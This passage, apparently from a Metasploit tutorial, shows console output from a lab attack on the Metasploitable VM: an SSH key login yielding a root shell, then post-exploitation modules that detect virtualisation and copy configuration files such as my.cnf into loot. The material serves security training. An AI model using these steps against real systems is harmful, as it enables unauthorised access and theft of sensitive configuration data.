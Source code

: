 [*] Command shell session 1 opened (10.0.0.5:33035 -> 10.0.0.27:22) at 2016-03-26 19:52:24 -0700
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login_pubkey) >

Now you can view the session that was created. It is ready for you to open:

msf auxiliary(ssh_login_pubkey) > sessions

Active sessions
===============

  Id  Type         Information               Connection
  --  ----         -----------               ----------
  1   shell linux  SSH root: (10.0.0.27:22)  10.0.0.5:33035 -> 10.0.0.27:22 (10.0.0.27)

msf auxiliary(ssh_login_pubkey) >

We are actually going to use it now with some post modules in Metasploit.
Electric Sheep or Real Sheep

Check if this operating system is running in a real machine or a virtual machine:

msf auxiliary(ssh_login_pubkey) > use post/linux/gather/checkvm
msf post(checkvm) > show options

Module options (post/linux/gather/checkvm):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf post(checkvm) > set SESSION 1
SESSION => 1
msf post(checkvm) > run

[*] Gathering System info ....
[+] This appears to be a 'VirtualBox' virtual machine
[*] Post module execution completed
msf post(checkvm) >

Enumerate Configurations

Enumerate all the things! Any important config files will be found, copied, and reported on:

msf > use post/linux/gather/enum_configs
msf post(enum_configs) > show options

Module options (post/linux/gather/enum_configs):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf post(enum_configs) > set SESSION 1
SESSION => 1
msf post(enum_configs) > run

[*] Running module against metasploitable
[*] Info:
[*] 	Warning: Never expose this VM to an untrusted network!Contact: msfdev[at]metasploit.comLogin with msfadmin/msfadmin to get started
[*] 	Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
[*] apache2.conf stored in /root/.msf5/loot/20160326195706_metasploitable_10.0.0.27_linux.enum.conf_314929.txt
[*] ports.conf stored in /root/.msf5/loot/20160326195707_metasploitable_10.0.0.27_linux.enum.conf_747688.txt
[*] my.cnf stored in /root/.msf5/loot/20160326195709_metasploitable_10.0.0.27_linux.enum.conf_423396.txt
[*] ufw.conf stored in /root/.msf5/loot/20160326195710_metasploitable_10.0.0.27_linux.enum.conf_385555.txt
